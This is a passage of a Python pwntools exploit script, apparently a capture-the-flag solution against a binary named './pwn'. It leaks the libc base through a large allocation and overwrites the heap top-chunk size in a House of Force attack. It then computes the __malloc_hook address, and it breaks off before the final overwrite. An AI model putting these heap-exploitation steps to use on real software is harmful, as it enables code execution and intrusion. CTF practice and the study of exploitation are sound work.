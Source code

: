 ### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,content):
    ru('2:puts\n')
    sl(str(1))
    ru('size\n')
    sl(str(size))
    ru('0x')
    data_ptr=int(p.recv(12),16)
    ru('content\n')
    s(content)
    return data_ptr


libc_base=add(0x200000,'aaaa')+0x200ff0
leak('libc_base',libc_base)

top_chunk_addr=add(0x10,'a'*0x10+b'/bin/sh\x00'+p64(0xffffffffffffffff))+0x10
leak('top_chunk_addr',top_chunk_addr)
#duan()
malloc_hook=libc.sym['__malloc_hook']+libc_base
realloc = libc.sym["__libc_realloc"]
```